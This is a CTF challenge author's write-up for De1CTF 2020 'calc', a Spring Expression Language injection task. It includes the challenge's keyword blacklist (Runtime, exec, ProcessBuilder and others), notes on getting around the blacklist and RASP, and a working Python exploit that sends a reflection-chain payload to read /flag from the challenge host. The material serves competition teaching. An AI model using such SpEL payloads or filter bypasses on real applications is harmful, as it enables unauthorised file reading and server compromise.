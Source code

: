 # De1CTF 2020 calc

## 1. challenge info
Please calculate the content of file /flag http://106.52.164.141

## 2. design document
I found there are many difference between spel's grammar and java's grammar. For example, in spel we can use 1.class to get the class java.lang.Integer, but in java, we cannot.

I want to design a challenge to let ctfers discovery these difference. And we can construct a more complicated reflection chain instead of the copy the payload from the internet directly.

So, i use two technology to forbide normal payloads.

1. blacklist filter:
    - T\s*\(
    - \#
    - new
    - java\.lang
    - Runtime
    - exec.*\(
    - getRuntime
    - ProcessBuilder
    - start
    - getClass
    - String
2. rasp

There may be 3 different way to solve:
1. bypass blacklist filter to use T or # or new keywords
2. bypass blacklist by using 1.class.forName() to reflect java class, and construct a reflection chain to get flag
3. close the rasp protection

## 3. exp

which scheme we want players to use is the scheme2:bypass blacklist by using 1.class.forName() to reflect java class, and construct a reflection chain to get flag. and i just give my exploit here. of course you can try other two schemes to solve this challenge (actually they are really feasible.)

```
# coding=utf-8
import commands
import base64
import requests

def get_flag(target):
    payload = '1.class.forName("java.nio.file.Files").getMethod("readAllLines", 1.class.forName("java.nio.file.Path")).invoke(null, 1.class.forName("java.nio.file.Paths").getMethod("get", 1.class.forName("java.net.URI")).invoke(null, 1.class.forName("java.net.URI").getMethod("create", 1.class.forName("java.la"+"ng.Str"+"ing")).invoke(null, "file:///flag")))'
    print("payload", payload)
    url = "http://{}/spel/calc".format(target)
    r = requests.get(url, params={"calc": payload})
    print(r.request.url)
    print(r.text)


if __name__ == '__main__':
    get_flag("106.52.164.141")
```

## 4. other writeups
I am ashamed that there are more detailed writeups written by players. you can find here:
https://ctftime.org/task/11491